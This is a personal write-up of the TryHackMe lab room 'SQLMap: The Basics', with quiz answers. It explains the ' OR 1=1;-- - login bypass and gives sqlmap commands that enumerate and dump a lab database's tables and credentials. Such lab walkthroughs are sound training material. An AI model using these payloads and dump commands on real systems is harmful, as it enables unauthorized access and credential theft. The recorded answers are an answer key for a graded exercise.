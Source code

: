 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/sqlmap-the-basics/","created":"2024-11-04T19:56:39.272-05:00","updated":"2025-03-11T00:32:59.401-04:00"}
---
```


# Task 2 - SQL Injection Vulnerability

- Usual SQL query from user to data base is sent like so,
	- `SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';`
	- Needs both username and password to be correct in order to go through
- If user input not validated/sanitized, attackers can input direct SQL queries that get executed in the database
- They can type in the following fields for the example above
	- Username: John
	- Password: abc' OR 1=1;-- -
	- The SQL query now becomes:
		- `SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';`
		- The OR condition here with the 1=1 statement makes the whole query true, regardless of the password being inputted (abc)
		- "-- -" at the end comments out anything after the 1=1, allowing the query to get executed right away
		- Ensure to use single quotes to make the last part separate instead of one whole string  

> [!Question]
> **Which boolean operator checks if at least one side of the operator is true for the condition to be true?** 

> [!Success] Answer
> OR

> [!Question]
> **Is 1=1 in an SQL query always true? (YEA/NAY)** 

> [!Success] Answer
> Answer: YEA
# Task 3 - Automated SQL Injection Tool

| Flag     | Description                                                                                  |
| -------- | -------------------------------------------------------------------------------------------- |
| --wizard | Guides you through each step to ask questions in order to finish scan, perfect for beginners |
| --dbs    | Extract all databases names                                                                  |
| -D       | Used to extract information about tables from set database, D database_name --tables         |
| --dump   | Extracts records from tables                                                                 |
| -u       | Used to provide URL                                                                          |
| --tables | Extracts all tables                                                                          |

- HTTP Get-based testing    
	- Look for vulnerable URL/requests, mainly those with GET parameters
	- Vulnerable to SQL injection
- Can also do POST-based testing    
	- Need to intercept POST request with -r
	- Can save to text file
	- Example, `sqlmap -r intercepted_request.txt` 

> [!Question]
> **Which flag in the SQLMap tool is used to extract all the databases available?** 

> [!Success] Answer
> --dbs

> [!Question]
> **What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)** 

> [!Success] Answer
> `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`
   
# Task 4 - Practical Exercise

  If the page URL is not showing the GET parameters, can inspect page source and go to the Network section to find all requests
  
![The in-browser tools in the website that allow us to see the URL with parameters.|1000](/img/user/TryHackMe/THM_Images/749c11b0d8fccaea899c4902ee4732e4.png)

> [!Question]
> **How many databases are available in this web application?** 

Went to website and tried a random request to spawn the GET record, got to see the HTTP Get request link, [http://10.10.245.244/ai/includes/user_login?email=test&password=test](http://10.10.245.244/ai/includes/user_login?email=test&password=test)

![Exported image|1000](/img/user/TryHackMe/THM_Images/f80555465be20f0c39aae7a62681d668.png)  

Ran the command,

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test --dbs --level=5. 
```

Said Y,Y,Y,N for the parameters regarding level 5

![Exported image](/img/user/TryHackMe/THM_Images/358d32e53559d823854b64a926ed3c9b.png)  

![Exported image](/img/user/TryHackMe/THM_Images/77110f8198e789535e6ea6b75f08a6a3.png)  

> [!Success] Answer
> 6

> [!Question]
> **What is the name of the table available in the "ai" database?** 

Ran the command, 

```
sqlmap -u 'http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables
```

![Exported image](/img/user/TryHackMe/THM_Images/c0ae81e31bcc2e146548e8075da07205.png)  

> [!Success] Answer
> user

> [!Question]
> **What is the password of the email test@chatai.com?** 

Ran the command, 

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables --dump
```

![Exported image](/img/user/TryHackMe/THM_Images/e160f2cd554b2bc6b85e3255cd6983d0.png)  

> [!Success] Answer
> 12345678
          

